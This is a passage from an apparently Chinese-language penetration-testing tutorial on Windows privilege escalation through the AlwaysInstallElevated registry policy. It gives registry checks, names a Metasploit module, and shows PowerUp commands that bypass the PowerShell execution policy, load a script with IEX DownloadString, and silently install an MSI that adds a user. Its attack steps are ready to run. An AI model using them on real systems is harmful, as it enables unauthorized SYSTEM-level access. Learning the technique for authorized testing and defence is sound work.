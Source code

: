 成功之后，

会反弹一个新的system 会话。

详细看这里

https://cloud.tencent.com/developer/article/1043376

##### 3.4.3 注册表键AlwaysInstallElevated

> 注册表 AlwaysInstallElevated 是一个策略选项。
>
> windwos 允许低权限用户以 System 权限运行安装文件。如果启用此策略设置项，那么任何权限的用户都能以 NT AUTHORITY\SYSTEN 权限来安装恶意的 MSI 文件。
>
> 默认情况下禁用此设置，需系统管理员手动启用他。

![img](file:///C:\Users\51946\AppData\Roaming\Tencent\Users\519461623\TIM\WinTemp\RichOle\3C$UYX75OQIJEDAEST_JI_1.png)

![img](file:///C:\Users\51946\AppData\Roaming\Tencent\Users\519461623\TIM\WinTemp\RichOle\S(V`ZC`)8W]W8QRW4$3G[WL.png)

可以通过查询以下注册表项来识别此设置：

```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
或者
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

显示如下，说明存在漏洞，

![image-20210323200402561](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210402173309.png)

使用MSF模块

```bash
exploit/windows/local/always_install_elevated
```

设置相关参数，run,成功的话会返回一个sysytem会话。

该模块会创建一个文件名随机的MSI文件，并在提权后删除所有已部署的文件。

**PowerUp利用**

```txt
# 检查是否被设置
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('./PowerUp.ps1');Get-RegistryAlwaysInstallElevated"
# 运行Write-UserAddMSI模块，生成MSI文件
powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('./PowerUp.ps1');Write-UserAddMSI"
# 执行MSI文件
msiexec /quiet /qn /i UserAdd.msi
```

本地测试了一下

![image-20210323201936179](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210402173310.png)
